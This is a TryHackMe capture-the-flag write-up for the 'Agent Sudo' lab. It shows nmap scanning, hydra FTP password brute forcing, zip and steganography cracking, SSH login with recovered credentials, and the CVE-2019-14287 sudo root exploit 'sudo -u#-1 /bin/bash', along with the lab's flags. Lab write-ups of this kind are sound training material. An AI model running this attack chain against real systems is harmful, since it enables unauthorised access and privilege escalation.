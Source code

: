 # Agent Sudo

![Logo](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/5f59219d-e80c-4ab9-a2b5-b67ded75b5e3)

## Enumeration

Let's enumerate the machine with nmap :

```bash
nmap -sT -sV 10.10.52.49
```

![nmap](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/e056fada-cec3-472c-92f8-e78987ef27cd)

we browse to web server on port `80` :

![firstPage](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/810ff7da-99a0-4ae6-aa56-6c7adaeeb214)

we see that the page needs user-agent to access the site and `R` is agent that wrote this message.

we can infere that other agents codenames are like this, try accessing the website with curl command and user agent.

if we set user-agent to `A` or `B` nothing happens, but setting user-agent as `C` will show a different message :

```bash
curl http://10.10.52.49/ -H 'user-agent: C' -L
```

`-L` is for following redirects :

![userAgent](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/403f2967-e34f-46b2-b077-1c49946d7b38)

we can see this is a message to user `chris`, so we can brute force the ftp login with this user :

```bash
hydra -l chris -P /usr/share/wordlists/rockyou.txt 10.10.52.49 ftp -v
```

yes, hydra finds the password :

![hydra](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/55dcb21c-d77f-4cf5-8a5f-40184a691fc8)

login to ftp server with this credential : `chris:crystal` and use `dir` to show the content, download all the files there.

![ftp](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/49494c20-cb95-4718-ba24-4b397c081e5c)

cat the content of `To_agentJ.txt` file :

```text
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
```

so we find out that the login password is in the fake picture, let's examin the pictures

we start by examining `cutie.png`

```bash
binwalk -e cutie.png --run-as=root
```

there is a zip file inside and it is password protected.

use `zip2john` to brute force the password :

```bash
zip2john cutie.png > hash.txt
```

and the use it in `john` :

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

![zipPass](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/fa83858b-c463-48c3-adff-0af0763b04bc)

use this password to open the zip file :

```bash
7za x 8702.zip
```

and open the `To_agentR.txt` :

```text
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
```

the string `QXJlYTUx` is a base64 encoded so we need to decode it :

```bash
echo -n 'QXJlYTUx' | base64 -d

Area51
```

Let's examin the `cute-alien.jpg` picture :

```bash
steghide info cute-alien.jpg
```

it needs a password, use `Area51` password which we found in the zip file of `cutie.png` :

```bash
steghide extract -sf cute-alien.jpg
```

there is a file call `message.txt` inside, open it :

```text
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```

from this message we understand that the password of user `james` is `hackerrules!`

yes we can now ssh to machine with these credentials `james:hackerrules!`

now, cat the user.txt file here :

```bash
cat user_flag.txt

b03d975e8c92a7c04146cfa7a5a313c7
```

and download the `Alien_autospy.jpg` file to your machine using scp :

```bash
scp james@10.10.52.49:Alien_autospy.jpg /root
```

for the question `What is the incident of the photo called?` is used the hint and then used this google dork :

```text
Alien autospy site:foxnews.com
```

and the first link gives you the anwer `Roswell alien autopsy`.

## Privilege Escalation

use `sudo -l` to see if any sudo permissions is set for user james :

```bash
[sudo] password for james: 
Matching Defaults entries for james on agent-sudo:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
```

emmmm!!, now we can use /bin/bash as root but wait, this is suspicious, lets check the sudo version with `sudo -V` :

```bash
Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2
```

just search for the vulnerabilities of this version in exploit db or google search the `(ALL, !root) /bin/bash` exploits :

you will find the `CVE-2019-14287` for this sudo version and the exploit is :

```bash
sudo -u#-1 /bin/bash
```

![exploit](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/4ef94669-139d-42b8-8586-69dfe2f2ff4e)

cat the content of `/root/root.txt` :

```text
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine. 

Your flag is 
b53a02f55b57d4439e3341834d70c062

By,
DesKel a.k.a Agent R
```

and with the above text we see that Agent R is Deskel.
